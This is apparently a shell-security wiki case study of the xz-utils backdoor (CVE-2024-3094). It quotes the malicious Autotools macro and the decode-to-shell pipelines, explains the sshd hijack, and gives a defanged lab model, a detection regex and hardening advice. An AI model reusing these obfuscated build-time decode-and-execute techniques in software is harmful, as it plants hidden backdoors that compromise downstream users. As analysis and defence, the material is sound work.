

# The xz-utils Backdoor

> [!summary] Claim
> CVE-2024-3094 was a backdoor that lived in the gap between what reviewers read (the git tree) and what builders ran (the release tarball), and the whole build-time half of it was ordinary POSIX shell, `tr`, `sed`, `head`, `awk` and `xz` turning inert-looking data into code.

Part of [Shell Security](README.md) in [Shell and Unix Engineering](../README.md).

## TL;DR

- Mechanism: the 5.6.0 and 5.6.1 release tarballs carried one extra Autotools macro, `m4/build-to-host.m4`, absent from git, that at `configure` time decoded two binary "test files" through `tr`, `xz`, `head`, `tail` and `awk`, piped the result to a shell, and spliced a hidden object file into `liblzma`; at runtime a GNU IFUNC resolver in that object hijacked `RSA_public_decrypt` inside `sshd` (Freund, oss-security 2024-03-29; Cox, xz-script).
- Rule: build from a verified source of truth and diff the release tarball against the tagged git tree, because a tarball is generated output that nobody reviews.
- Trap: every individual command is boring (`cat`, `tr`, `xz -d`, `head -c`, `eval`), so line-by-line review of the build glue sees nothing, and the data that becomes code looks like test fixtures.
- Portability fact: the chain of `head -c` skip-and-keep commands only works on a pipe with a `head` that reads exactly what it needs (GNU coreutils); POSIX.1-2024 XCU 1.4 leaves the offset after a pipe read unspecified, and macOS `head` returned nothing on a pipe in the lab.
- When not to use it: this note is a defensive case study; the lab model is benign and defanged, and none of its techniques belong in a build you ship.

## Mental model



The git tree holds two binary test files that do nothing by themselves, and the tarball adds one macro that knows how to find them by content and decode them.
`configure` runs that macro's command string through `eval` and pipes the decoded text to a shell, which is stage 1.
Stage 1 decodes the second, larger carrier into the stage-2 script, and at configure time stage 2 edits the generated Makefile and libtool so that `make` re-enters the same hook.
In that make-time run the script decrypts and decompresses a hidden object file and links it into `liblzma`.
At runtime a distribution-patched `sshd` pulls `liblzma` in through `libsystemd`, the dynamic linker resolves IFUNC symbols early because of `-z now`, and the backdoor's resolver code runs before the GOT is made read-only, so it can redirect `RSA_public_decrypt` to attacker-controlled code.

## How it works

### The gap: git versus tarball

Autotools projects ship a release tarball produced by `make dist`, which contains generated files (`configure`, `Makefile.in`, `aclocal.m4`) that are not in the repository.
Downstream consumers build from that tarball so they do not need Autoconf installed (LWN, "How the XZ backdoor works").
GitHub's automatically generated "source code" archives come straight from the repository and therefore lack those files, while the maintainer-uploaded release assets contain them (Freund).
The backdoor trigger was solely in the uploaded tarballs of 5.6.0 and 5.6.1: Red Hat's statement says the Git distribution lacks the M4 macro that triggers the malicious build, while the second-stage artifacts were present in Git.

The upstream review notes list the commit "Update m4/.gitignore" and say the modified `build-to-host.m4` had the backdoor trigger; they add that ignoring the file in that commit is correct in itself because `autogen.sh` or `autoreconf -fi` adds several `.m4` files to the tree (Tukaani, XZ Utils review notes 1.0, 2024-02 section).
The same notes record that the two data files arrived in "Tests: Add a few test files" and that `tests/test_files.sh` picks files by glob, so adding a file was enough to get it exercised.

The macro itself is a modified copy of gnulib's `build-to-host.m4`.
The legitimate copy converts path syntax between build and host environments; the tarball copy changed its serial from 3 to 30, bumped the copyright line, and added the code below (Cox, xz-script diff).
As of 2026-11 the gnulib master copy is at serial 5.

### Stage 0: the macro

The additions, quoted from Cox's diff, were these lines inside `gl_BUILD_TO_HOST_INIT` and `gl_BUILD_TO_HOST`:

```sh
gl_am_configmake=`grep -aErls "#{4}[[:alnum:]]{5}#{4}$" $srcdir/ 2>/dev/null`
gl_path_map='tr "\t \-_" " \t_\-"'
gl_[$1]_prefix=`echo $gl_am_configmake | sed "s/.*\.//g"`
gl_[$1]_config='sed \"r\n\" $gl_am_configmake | eval $gl_path_map | $gl_[$1]_prefix -d 2>/dev/null'
AC_CONFIG_COMMANDS([build-to-host], [eval $gl_config_gt | $SHELL 2>/dev/null], [gl_config_gt="eval \$gl_[$1]_config"])
```

Each line hides its purpose behind a plausible name:

- The first line finds a file by content, not by name: any file under `$srcdir` containing a line that ends in four `#`, five alphanumerics and four `#`.
  Only `tests/files/bad-3-corrupt_lzma2.xz` matched, so no build file ever names the data (Cox).
  Name-based review and name-based allowlists see nothing.
- `gl_path_map` is a `tr` that swaps tab with space and `-` with `_`.
- The "prefix" variable is really the file-name suffix, `xz`, used as the name of the decompressor command (Cox).
- `sed "r\n"` is the `r` command with a file operand named `\n`.
  POSIX.1-2024 XCU `sed` says that if the `rfile` does not exist or cannot be read it is treated as an empty file with no error, so with no `-n` the command just prints its input: an obfuscated `cat`.
  The same page requires one or more blanks between `r` and its `rfile` and allows zero separation only "as an extension", so `r\n` with no blank relies on an extension that GNU and macOS `sed` both provide.
  The lab proves this and that no file named `\n` is created.
- `AC_CONFIG_COMMANDS` makes `config.status` run `eval $gl_config_gt | $SHELL`, so the decoded text becomes a program with no file ever holding it.
  POSIX.1-2024 XCU 2.15 `eval` says the arguments are concatenated, tokenized, parsed and executed in the current environment, and XCU 2.9.2 says a pipeline connects each command's standard output to the next command's standard input; together those two rules are the entire "data becomes code" mechanism.

The data file is three xz streams.
The test directory README describes `bad-3-corrupt_lzma2.xz` as three streams where the middle one has corrupt LZMA2 data, and the attack's `tr` swap un-corrupts it (Cox).
The first and third streams decode to `####Hello####` and `####World####`, which are shell comments, so the decoder's whole output is directly executable.

### Stage 1: the decoded script and the skip-and-keep chain

Decoding the first file yields the stage-1 script.
The 5.6.1 version of this script added five identical `[ ! $(uname) = "Linux" ] && exit 0` lines, with spaces, so these ones work, and changed the head-chain tail and the `tr` map (Cox; Gynvael, both quoting the decoded 5.6.1 stage 1).
The essential decode line, in the 5.6.1 form quoted by Cox, is:

```sh
(xz -dc $srcdir/tests/files/good-large_compressed.lzma|
    eval $i|tail -c +31233|
    tr "\114-\321\322-\377\35-\47\14-\34\0-\13\50-\113" "\0-\377")|
    xz -F raw --lzma1 -dc|/bin/sh
```

The variable `i` holds a chain that skips 1024 bytes, keeps 2048, sixteen times, then skips 1024 and keeps a final partial block, 724 bytes in 5.6.0 and 939 in 5.6.1, so it emits 16 x 2048 + 724 = 33,492 bytes (5.6.0) or 16 x 2048 + 939 = 33,707 bytes (5.6.1).
The skipped regions are filler: the first 1024 bytes of the decompressed carrier are the letter `A` repeated (Gynvael).
`tail -c +31233` starts output at byte 31233, so it discards the first 31,232 bytes, which hold the object code that stage 2 extracts separately (Gynvael states the 31,232 and 31,264 discard counts; Cox's prose says the last 31,233 bytes, which contradicts POSIX.1-2024 XCU `tail`, where `-c +1` is the first byte).

The `tr` is a substitution cipher: string1 is six octal ranges that together cover all 256 byte values, string2 is `\0-\377`.
POSIX.1-2024 XCU `tr` says that when a range endpoint is an octal sequence the range covers the coded values between the endpoints, so each range is a legal, ordered run of byte values placed in a shuffled order.
The lab applies the 5.6.0 and 5.6.1 maps to all 256 byte values and measures a permutation in each case (256 distinct outputs), so the cipher is invertible and `tr "\0-\377" MAP` is its encryptor.

The chain works on a pipe only because GNU `head -c` never reads more than it still has to emit: in coreutils master (as of 2026-11) `copy_fd` in `src/head.c` calls `read` with `MIN (n_bytes, sizeof buf)`.
POSIX.1-2024 XCU 1.4 does not promise this: for non-seekable input the file offset left by a utility "is unspecified", and it names `head` among the utilities with that property.
On the macOS host the lab measured exactly the failure: the same chain over a pipe printed nothing, over a seekable redirect it printed `456789ABGHIJKLMN`.

### Stage 2: configure-time checks, then Makefile surgery

The remaining script is the `injected.txt` that Freund extracted and Cox annotated.
It runs twice: once from `config.status` (configure time) and once from the patched Makefile (make time), and an `if test -f config.status ... elif (test -f .libs/liblzma_la-crc64_fast.o) && ...` split picks the branch.

Configure-time gates (Freund; Cox):

| Gate | Check |
|---|---|
| Toolchain | `GCC` is `yes`, `CC` is `gcc`, and `$LD -v` mentions `GNU ld` |
| Features | `HAVE_FUNC_ATTRIBUTE_IFUNC` in `config.status` and `config.h`, `enable_shared` is `yes` |
| Source shape | the CRC sources still contain `is_arch_extension_supported()` and the `crc_x86_clmul.h` markers |
| Data present | both test files exist under `tests/files` |
| Packaging build | `$srcdir/debian/rules` exists, or `RPM_ARCH` is `x86_64` |
| Architecture | the line below |

The architecture line, as quoted by Freund, is:

```sh
if ! (echo "$build" | grep -Eq "^x86_64" > /dev/null 2>&1) && (echo "$build" | grep -Eq "linux-gnu$" > /dev/null 2>&1);then
```

Freund and Cox read it as "target only x86-64 Linux".
As written, `!` negates only the first pipeline (POSIX.1-2024 XCU 2.9.2: the reserved word `!` applies to a pipeline, and XCU 2.9.3 makes `&&` join pipelines into an AND-OR list), so the condition is "not x86_64 AND linux-gnu", and the `exit 0` fires only for non-x86_64 glibc Linux builds.
The lab runs the line under real shells: `aarch64-unknown-linux-gnu` exits, while `x86_64-apple-darwin23` and `x86_64-pc-linux-musl` continue past this gate; the later gates (GNU `ld`, IFUNC support, `debian/rules` or `RPM_ARCH`) are what actually narrow the target.
This is my reading of the quoted line, confirmed by running it, and I did not find it stated in the sources.

The 5.6.1 stage-2 script also added `grep -broaF` lookups for magic strings in other test files, and `eval` of variables that are never set, which Cox reads as extension points so that later payloads could arrive in new fixtures instead of rewriting existing ones.
If the gates pass, the script appends lines to `src/liblzma/Makefile` with `sed -i`, scattered at anchor lines it first verified exist, so the additions do not appear together:

- `am__test = bad-3-corrupt_lzma2.xz`, a `tr` map stored as `am__strip_prefix`, `am__dist_setup = $(am__strip_prefix) | xz -d 2>/dev/null | $(SHELL)`, and `am__test_dir` (a file despite the name).
- `liblzma_la_LDFLAGS += -Wl,--sort-section=name,-X`, plus `-z,now` if `LDFLAGS` does not already have it.
- A `sed` over `libtool` extending `pic_flag` with `-fno-lto -ffunction-sections -fdata-sections`.
- An `AM_V_CCLD` rewrite that, at link time, runs `sed rpath $(am__test_dir) | $(am__dist_setup) >/dev/null 2>&1`, which is the stage-1 pipeline again; `sed rpath` is a second obfuscated `cat` (the `r` command with a file named `path`), dressed to look like the common `-rpath` linker flag (Cox).

`-z now` matters because it forces eager binding, which runs IFUNC resolvers while the GOT is still writable.
`ld.so(8)` documents `LD_BIND_NOW` as resolving all symbols at program startup instead of at first reference, and GCC 14.2's `ifunc` attribute documents `STT_GNU_IFUNC` as a symbol type whose value is determined dynamically at load time (as of 2026-11).

### Stage 2, make time: carve, decrypt, compile, relink

In the `elif` branch the script extracts the object file:

```sh
xz -dc $top_srcdir/tests/files/$p | eval $i | LC_ALL=C sed "s/\(.\)/\1\n/g" |
LC_ALL=C awk '... RC4-like key schedule and keystream ...' |
xz -dc --single-stream | ((head -c +$N > /dev/null 2>&1) && head -c +$W) > liblzma_la-crc64-fast.o || true
```

- `sed "s/\(.\)/\1\n/g"` puts every byte on its own line so `awk` can read bytes as records.
- The `awk` program is an RC4-like stream cipher: a 256-entry state initialised as `((i*7)+5)%256` and scrambled by a key-schedule loop that runs 4096 iterations in 5.6.0 and 8192 in 5.6.1, then combines each input byte with the keystream byte by addition modulo 256 (`(v+k)%m`, where real RC4 uses XOR) and emits it with `printf "%c"` (Cox, who credits @nugxperience for recognising it).
- `xz -dc --single-stream` stops after the first stream so it does not read the section `tail` already used.
- The `N` and `W` offsets are chosen by testing whether `gettext.m4` contains a string (`dnl Convert it to C string syntax.`) that only the modified `build-to-host.m4` has, so a tree whose `gettext.m4` does contain it yields a zero-length object instead.
  In the shipped tarballs the `grep` finds nothing and the test selects the real object (Cox).

The script then rebuilds an edited copy of `crc64_fast.c` through the compiler's stdin: a `sed` pipeline changes `return is_arch_extension_supported()` to a call to `_is_arch_extension_supported()`, inserts an `extern int _get_cpuid(...)` declaration and a replacement inline function, and `$CC ... -r liblzma_la-crc64-fast.o -x c - -o .libs/liblzma_la-crc64_fast.o` merges the hidden object into the real object file name.
The `crc32` object is rewritten the same way but without the hidden object.
The script relinks `liblzma`, restores backed-up objects on any failure (`mv -f ... || true`), deletes the backup files, and leaves no trace in the build tree (Cox).
Every step has `2>/dev/null` or `|| true`, so a failed injection produces a clean, ordinary build.

### Runtime: from `liblzma` to `RSA_public_decrypt`

OpenSSH does not link `liblzma`; Debian, Fedora and other systemd distributions patched `sshd` to call `sd_notify`, and `libsystemd` depends on `liblzma` (Freund; Cox timeline).
Arch, Gentoo and NixOS did not patch `sshd` that way (Cox timeline).

The resolver chain, per Freund's `perf record -e intel_pt//ub` and `gdb` analysis:

1. `sshd` is built with `-Wl,-z,now`, so every symbol, including IFUNC resolvers, is bound at startup.
2. `crc32_resolve()` and `crc64_resolve()` now call the injected `_get_cpuid()`; on the first call it only increments a `completed` counter, on the second it inspects the dynamic linker data, `argv` and the environment.
3. If the environment checks pass, it parses symbol tables in memory (the slow step that exposed it) and installs an `rtld-audit` hook, visible with `watch _rtld_global_ro._dl_naudit`.
4. The audit hook fires from `_dl_audit_symbind` for symbols in the main binary, waits for `RSA_public_decrypt@plt`, rewrites its `got.plt` slot to point into the backdoor, then uninstalls itself.
   This works because `liblzma` is resolved before the GOT is remapped read-only by `-z relro`.
5. During a public-key login, `ssh_rsa_verify` calls into the backdoor, which calls back into `libcrypto` for normal verification and, for an attacker-supplied key, takes a path Filippo Valsorda's analysis (as summarised in Sam James's FAQ) describes as verifying the key and passing attacker input to `system()`.

Freund's observed activation conditions: `TERM` not set, `argv[0]` is `/usr/sbin/sshd`, `LD_DEBUG` and `LD_PROFILE` not set, `LANG` set, and some debuggers such as `rr` detected; starting with `LD_BIND_NOT=1` disables it.
These conditions are consistent with the bug hiding from interactive testing, since a terminal session normally sets `TERM`.
His reproduction without systemd was `env -i LANG=C /usr/sbin/sshd -h` (slow) versus the same with `TERM=foo` (fast).

### Discovery and timeline

The dated facts below are from Cox's timeline unless noted.

- 2023-06-22: Hans Jansen's IFUNC patches for fast CRC selection are merged, creating the hook (Sam James's FAQ also names the crc64 IFUNC change).
- 2024-02-23: the two data files are committed.
- 2024-02-24: 5.6.0 is tagged with the modified `m4/build-to-host.m4`; Debian adds 5.6.0-0.1 to unstable on 2024-02-26.
- 2024-03-04 to 2024-03-09: Valgrind errors in `_get_cpuid` are reported, a "fix" is committed, the data files are replaced and 5.6.1 is tagged on 2024-03-09.
- 2024-03-28: Freund reports privately to Debian and to the distros list; Red Hat assigns CVE-2024-3094; Debian ships `5.6.1+really5.4.5-1`.
- 2024-03-29: public disclosure on oss-security.

Freund started from symptoms on Debian sid: ssh logins using a lot of CPU and Valgrind errors.
The signing key was not a defence: the 5.6.0 and 5.6.1 tarballs were created and signed by the attacker identity, and any tarball signed by Lasse Collin was created by him (Tukaani).

Upstream response: the repository was not rebased, and clean releases were made on 2024-05-29; the review notes, version 1.0, were published the same day (Tukaani).
CISA's advisory recommended downgrading to an uncompromised version such as 5.4.6.

### What the shell did

The first two stages are pipelines whose input is data and whose last command is a shell.
That is the structural fact from this folder's introduction in its purest form: the shell has no boundary between data and code except the programmer's care, and a decoder placed before `sh` turns any file into a program.
The script also relies on shell behaviour that is easy to misread:

- `eval $zrKcVq` appears in the script for variables that are never set; an unset variable expands to nothing so `eval` runs an empty command, and Cox suggests these are debug prints or extension points that something else could set.
- `[ ! $(uname)="Linux" ] && exit 0`, a line that only the 5.6.1 stage-2 script has, has no spaces around `=`, so after expansion it is one word: POSIX.1-2024 XCU `test` says with two arguments where `$1` is `!`, the result is true if `$2` is null, so the whole test is false and the `exit` never runs (Cox credits Jakub Wilk).
  ShellCheck 0.11.0 as installed here reports it as SC2077 "You need spaces around the comparison operator" (checked by running it).
- The macro and script lean on `grep` option spellings that GNU and BSD implementations accept but POSIX.1-2024 `grep` does not list: its synopsis has only `-E`, `-F`, `-c`, `-l`, `-q`, `-i`, `-n`, `-s`, `-v`, `-x`, `-e` and `-f`, while the macro uses `-a`, `-r` and the script uses `-b` and `-o`.

## Numbers and limits

| Quantity | Value | Source, date |
|---|---|---|
| CVE and score | CVE-2024-3094, CVSS 3.1 base 10.0 (`AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H`), CWE-506 | NVD API, fetched 2026-11-21; record published 2024-03-29, last modified 2026-11-04 |
| Affected versions | xz and liblzma 5.6.0 and 5.6.1 tarballs | Tukaani, as of 2026-11 |
| 5.6.0 tag to disclosure | 34 days (2024-02-24 to 2024-03-29) | computed from Cox timeline dates |
| Head chain output | 16 x 2048 + 724 = 33,492 bytes (5.6.0); 16 x 2048 + 939 = 33,707 bytes (5.6.1) | Freund and Cox quotes, arithmetic here |
| `tail -c +N` discard | 31,264 bytes (5.6.0, `+31265`); 31,232 bytes (5.6.1, `+31233`) | Freund and Cox quotes; POSIX.1-2024 XCU `tail` |
| RC4-like key schedule | 4096 loops (5.6.0), 8192 loops (5.6.1), 256-entry state | Cox, 2024-04 |
| `tr` cipher | 256-byte permutation, both versions | measured by the lab, 2026-11-21 |
| Attachments to the disclosure | `injected.txt` 8,236 bytes; gzip of the object 36,487 bytes | Freund post header, 2024-03-29 |
| Login slowdown | 0.299 s -> 0.807 s for a failing `ssh` (Freund's machine) | Freund, 2024-03-29 |
| `sshd -h` timing | about 0.5 s with the backdoor path active, about 0.01 s with `TERM` set | Freund, 2024-03-29 |
| Upstream cleanup | the malicious files equal eight commits; no rebase; clean releases 2024-05-29 | Tukaani, as of 2026-11 |
| Red Hat exposure | Fedora 41 and Rawhide per the CVE statement; Fedora 40 beta shipped `xz-libs-5.6.0-1.fc40` and `-2.fc40` but did not appear affected by the exploit; no RHEL | Red Hat CVE page, as of 2026-11; Red Hat blog, updated 2024-03-30 |
| macOS `tr` on bytes >= 0x80 | fails with "Illegal byte sequence" unless `LC_ALL=C` | measured on macOS host, 2026-11-21 |
| macOS `head -c` chain on a pipe | prints nothing (over-reads) | measured by the lab, 2026-11-21 |
| bash 3.2.57 `case` inside `$( )` | syntax error near `;;` for patterns without a leading `(` | measured on macOS `/bin/bash`, 2026-11-21 |

The first-party numbers from Freund are single-machine observations; they bound the effect and are not benchmarks.

## Portability

| Item | Result | Evidence |
|---|---|---|
| POSIX `sh` semantics of `!` and `eval` | `!` binds to the first pipeline; `eval` joins and re-parses its arguments | POSIX.1-2024 XCU 2.9.2 and 2.15 `eval`; lab `gate.sh` |
| bash 5.3, macOS bash 3.2.57 as `/bin/sh` and `/bin/bash`, dash (Homebrew build), zsh 5.9.2 native, `zsh --emulate sh`, ksh93u+ 2012-08-01 | the hook model, gate, `tr` probe, scanner and seekable head chain give identical results | direct runs on the macOS host, 2026-11-21 |
| mksh, yash, posh, BusyBox ash, ksh93u+m 1.0.10 | not run here; the lab asserts the same results and the matrix decides | lab (not yet run in those shells) |
| bash 3.2 | rejects a `case` pattern list inside `$( )` unless each pattern starts with `(`; the lab avoids the construct with a function | measured, `/bin/bash` 3.2.57 |
| native zsh | the lab scripts quote every expansion, so zsh's lack of field splitting does not matter | direct run, zsh 5.9.2 |
| `head -c +N` | the `+` is accepted by GNU head (the real chain ran on Debian and Fedora builds) and by macOS head; POSIX.1-2024 XCU `head` requires a positive decimal integer for `-c` | Freund; measured on macOS; POSIX |
| `head -c` on a pipe, consecutive calls | GNU coreutils exact (`copy_fd`); macOS over-reads; BusyBox and uutils not measured | coreutils `src/head.c`; lab |
| `head -c` on a seekable stdin | portable: POSIX.1-2024 XCU 1.4 requires the offset to be left just past the processed bytes | POSIX; lab on every shell run here |
| `tail -c +N` | 1-origin and in POSIX.1-2024 XCU `tail`; requires a non-zero number when signed `+` | POSIX; lab |
| `sed "r\n"` | the missing-rfile-is-empty rule is POSIX.1-2024 XCU `sed`, but no blank between `r` and the file name is only a permitted extension; macOS `sed` and GNU `sed` both accept it and behave as cat here | POSIX; lab on macOS `sed`, `gsed` run by hand |
| `grep -r -a -o -b` | not in the POSIX.1-2024 `grep` synopsis; BSD and GNU accept them | POSIX; macOS `grep -broaF` measured |
| `tr` with high octal ranges | needs `LC_ALL=C` on macOS; POSIX defines octal-endpoint ranges as coded-value ranges | measured; POSIX XCU `tr` |
| `xz -F raw --lzma1` and `xz --single-stream` | xz-specific flags, not POSIX; the lab model substitutes `gzip` so it needs no `xz` | design of the lab |
| uutils and BusyBox utilities | not measured here | none claimed |

## Worked example

The lab is [lab](../labs/17-xz-utils-backdoor/).
It builds a benign, defanged model: a `git` tree with two data files, a `tarball` tree that adds one macro and generated files, a configure-time hook that finds the marked file by content, decodes it with `sed "r\n"`, `tr`, `tail` and `gzip`, and runs the result, whose only effect is writing a flag file on a packaging build.
It uses `gzip` instead of `xz` so it runs in every matrix image, and it keeps the real `tr` cipher map, the swap map, the marker pattern, an 8-byte-skip, 16-byte-keep chain (the real one skips 1024 and keeps 2048) and the `debian/rules` or `RPM_ARCH` gate.

Simplified excerpt of the fixture and hook (`mkfixture.sh`, `build-to-host-analog.sh`):

```sh
# carrier: filler + data, decoded later by a skip-and-keep head chain
chain="$chain(head -c 8 >/dev/null) && head -c 16 && "
# first data file: plain marker line, then the swapped stream
{ printf '####Hello####\n'; gzip -n -c stage1.sh | tr "\t \-_" " \t_\-"; } >bad-3-corrupt_model.gzip

# the hook: find by content, decode, run
gl_am_configmake=$(find "$srcdir" -type f -exec grep -l -E '#{4}[[:alnum:]]{5}#{4}$' {} +)
gl_config='sed "r\n" "$gl_am_configmake" | eval "$gl_path_map" | tail -c +15 | $gl_prefix -d 2>/dev/null'
eval "$gl_config_gt" | /bin/sh
```

Simplified excerpt of the detector (`distdiff.sh`, `scan.sh`):

```sh
# files only in the tarball, compared with a pristine reference
EXTRA m4/build-to-host.m4 DIFFERS
# build glue that feeds decoded data to a shell
eval[[:space:]][^|]*\|[[:space:]]*(/bin/(ba)?sh|(ba)?sh|\$SHELL|\$\(SHELL\)|\$\{SHELL\})([[:space:]]|$)
```

Captured outputs (macOS host, 2026-11-21, direct script runs and one `bats` run with `sh` resolving to bash 5.3):

```text
build-to-host-analog.sh (tarball + debian/rules):  hook ran   -> injected.flag written
build-to-host-analog.sh (git tree + debian/rules): no build-to-host.m4: hook absent   -> no flag
gate.sh x86_64-pc-linux-gnu:        as-written=continue intended=continue
gate.sh aarch64-unknown-linux-gnu:  as-written=exit intended=exit
gate.sh x86_64-apple-darwin23:      as-written=continue intended=exit
gate.sh x86_64-pc-linux-musl:       as-written=continue intended=exit
tr-map-probe.sh (5.6.0 map):        distinct=256 first=239 240 241 242 243 0
tr-map-probe.sh (5.6.1 map):        distinct=256 first=208 209 210 211 212 213
head-chain-probe.sh file:           456789ABGHIJKLMN
head-chain-probe.sh pipe (macOS):   (empty)
distdiff.sh git tarball ref:        EXTRA aclocal.m4 no-reference
                                    EXTRA configure no-reference
                                    EXTRA m4/build-to-host.m4 DIFFERS
```

```text
1..17
ok 1 the tr swap of tab/space and dash/underscore is an involution
ok 2 sed r\n copies its input unchanged and creates no file
ok 3 tail -c +N starts at byte N, counting from 1
ok 4 the 5.6.0 and 5.6.1 tr maps are permutations of all 256 byte values
ok 5 a head -c skip-and-keep chain works on seekable input in every head
ok 6 the same chain on a pipe needs a head that reads no more than it needs
ok 7 the architecture gate as written exits only for non-x86_64 linux-gnu builds
ok 8 the git tree and the tarball differ by generated files and one macro
ok 9 the data files are inert in git: no macro, no hook, no flag
ok 10 the committed files alone decode to the stage-1 script the tarball hook runs
ok 11 the marker line is plain text in the raw file while the script is not
ok 12 the hook injects on a Debian-style build
ok 13 the hook injects when RPM_ARCH is x86_64 and stays quiet otherwise
ok 14 the scanner flags the injected macro and passes the clean one
ok 15 the scanner flags a decoded stage-1 script and rejects bad usage
ok 16 the other scripts reject bad usage with status 2
ok 17 a test with no spaces around = is a one-word test, so the 5.6.1 Linux check never fires
```

The model differs from the real attack in four stated ways: it uses `gzip` for `xz`, it runs its head chain on a seekable temporary file so every `head` works, it does no compilation or linking, and its payload writes one flag file.
The scanner is a lab heuristic over the exact shapes shown here, not a general detector; it flags the model's macro on `EVAL-TO-SHELL` and `MARKER-DISCOVERY`, and the decoded stage 1 on `SKIP-CHAIN` and `DECOMPRESS-TO-SHELL`, while the clean reference macro and the git tree produce no hits.

## Pitfalls

> [!warning] Building from what you reviewed
> Trigger: reviewing the git tag and then building from the uploaded release tarball.
> Symptom: a macro that is in the tarball but not in git runs at `configure` (the 5.6.0 and 5.6.1 incident, Freund 2024-03-29).
> Fix: build from a git checkout, or regenerate `configure` yourself with `autoreconf`, and diff any tarball against the tag; Arch changed 5.6.1 to build from git on 2024-03-28 (Cox timeline).

> [!warning] Binary test data as a code channel
> Trigger: build glue that reads `tests/files` or any fixture, or a test harness that globs a fixture directory.
> Symptom: the README for the xz fixtures says some files "have been created by hand with a hex editor", so there is "no better source code" than the files; the attacker used exactly that cover (Cox timeline), and the review notes record that `tests/test_files.sh` uses globs so added files get exercised.
> Fix: generate fixtures from reviewed source where possible, require a build-time provenance note for binary blobs, and flag build files that open fixture directories.

> [!warning] Operator precedence in gates
> Trigger: `if ! A && B` written as if `!` covered both.
> Symptom: the gate does the opposite of its reading; the quoted xz line exits only for non-x86_64 glibc Linux (lab `gate.sh`).
> Fix: write `if ! { A && B; }` or invert the test explicitly, and run the gate with positive and negative inputs.

> [!warning] A test with no spaces
> Trigger: `[ ! $(uname)="Linux" ]` or any `[ a=b ]`.
> Symptom: a one-word test, true for any non-empty word, so the guard is a silent no-op in the shells run here (the 5.6.1 line, Cox; lab test 17).
> Fix: always put spaces around `=`, quote expansions, and run ShellCheck, which reports SC2077 here.

> [!warning] Eval of unset or file-derived text
> Trigger: `eval $name` for a variable nobody sets, or `` eval `grep ^srcdir= config.status` ``.
> Symptom: the first is an extension point for whoever can set the variable, the second executes any `srcdir=` line an attacker can plant (both appear in the stage-1 and stage-2 scripts, Cox).
> Fix: treat `eval` as a code sink and see [[eval-and-sh-c]] and [[The-eval-Builtin]].

> [!warning] Blanket error suppression
> Trigger: `2>/dev/null` and `|| true` around the steps that matter.
> Symptom: a broken or partial injection leaves a clean build and no log line, which is also how a real defect hides (the stage-2 script suppresses every step, Cox).
> Fix: do not suppress stderr in build glue, and diff `config.log` and the generated Makefile against a known-good build.

> [!warning] Reading `tail -c +N` as "the last N bytes"
> Trigger: analysing or writing `tail -c +31233`.
> Symptom: POSIX.1-2024 XCU `tail` makes `-c +1` the first byte, so `+31233` discards 31,232 bytes; Gynvael states the discard counts and Cox's prose says "final 31,233 bytes", so one of them is wrong.
> Fix: use `tail -c +N` only as a 1-origin start and verify with a known input (lab test 3).

> [!warning] Chunked `head` on a pipe
> Trigger: `(head -c 4 >/dev/null) && head -c 8` over `cat file |`.
> Symptom: correct with GNU head, empty output on macOS head in the lab, and unspecified by POSIX.1-2024 XCU 1.4.
> Fix: read from a seekable file, or use `dd` with explicit block counts.

> [!warning] bash 3.2 and `case` inside `$( )`
> Trigger: a `case` pattern list such as `*.m4 | *.sh) ;;` inside a command substitution, run by macOS `/bin/sh`.
> Symptom: `syntax error near unexpected token ;;` on bash 3.2.57 (measured), no error on dash, bash 5.3 or ksh93u+ 2012.
> Fix: move the `case` into a function, since formatters such as `shfmt` strip the optional leading `(` that would also fix it.

> [!warning] Locale-dependent `tr` on macOS
> Trigger: `tr` with high-byte octal ranges in a UTF-8 locale.
> Symptom: `tr: Illegal byte sequence` (measured on the macOS host).
> Fix: set `LC_ALL=C` for binary pipelines; the lab scripts do.

## Security and robustness

What would have stopped or detected it, by layer:

1. Source integrity: build from a verified tag, or require a tarball-to-tag diff in CI; the lab `distdiff.sh` shows the shape (the extra macro compares as `DIFFERS` against a pristine reference).
   This is the cheapest control and it addresses the actual gap.
2. Build hygiene: regenerate Autotools output from reviewed inputs and pin the macro sources; see [[Supply-Chain-Pinning-and-Verification]] and [[Autoconf-and-configure]].
3. Static signals: flag decode-to-shell pipelines, `head -c N >/dev/null` skip chains, and content-based file discovery in build glue; the lab `scan.sh` demonstrates the pattern classes and is a heuristic, since the real obfuscation can be rewritten.
4. Runtime attack surface: keep large libraries out of privileged daemons.
   OpenSSH 9.8 split `sshd` into a small listener and a per-session `sshd-session` binary and added systemd notification support without `libsystemd` (OpenSSH 9.8 release notes); systemd moved many dependencies to `dlopen`, and in systemd 256 the `liblz4`, `libzstd` and `liblzma` dependencies became `dlopen()`-based (systemd NEWS, "CHANGES WITH 256").
5. Process containment: a library loaded into a process has that process's authority, so least privilege and sandboxing apply; see [[Dropping-Privileges]], [[Sandboxing-Scripts]] and [[Restricted-Shells]].

What did not help: tarball signatures (signed by the attacker identity, Tukaani), reading the git history for the trigger (it was not there), and CVE scanners (zero-day until 2024-03-28).
The attack also shows an organisational weak point, a single overloaded maintainer under social pressure (Cox timeline), which no shell construct addresses.

Robustness lessons for your own build scripts: quote and constrain every `eval`, avoid reading code from data files, fail loudly, make the build reproducible, and keep a diff between what is reviewed and what is built.
See [[Shell-Threat-Model]] for the general model and [[Piped-Installers]] for the `curl | sh` sibling of the same data-to-code pattern.

## The principal's view

The decision is where your trust boundary sits: reviewed source, or whatever the maintainer uploads.
For anything that reaches production, treat the release tarball as untrusted output, build from a tag you can reproduce, and gate on a tarball-to-tag diff; the cost is some friction for projects that only publish tarballs.
The trade-off is real: Autotools tarballs exist so that builders do not need the toolchain, and regenerating from source means shipping the toolchain version the project expects, which sometimes breaks old builds.

Reduce the blast radius too.
Do not link large optional libraries into daemons that handle unauthenticated input; prefer `dlopen` at the point of use or a separate helper process, and prefer the split-process design OpenSSH moved to.
Treat build systems that run arbitrary shell at configure time as high-risk code and give them the same review as application code; a declarative build or a pinned, hermetic builder (see [[Supply-Chain-Pinning-and-Verification]]) removes the surface instead of policing it.

